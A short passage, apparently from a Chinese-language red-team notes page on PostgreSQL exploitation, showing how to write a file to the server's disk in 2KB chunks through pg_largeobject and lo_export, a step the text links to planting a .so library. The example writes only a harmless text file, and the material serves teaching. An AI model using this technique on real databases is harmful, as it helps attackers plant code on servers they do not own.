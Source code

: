 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/32.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/33.png)

如果内容过多，那么首先创建一个 OID 作为写入的对象, 然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下, 收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了,就随便写个 txt 举个例子

```sql
SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));
SELECT lo_export(12345, '/tmp/ffffffff0x.txt');
SELECT lo_unlink(12345);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/11.png)
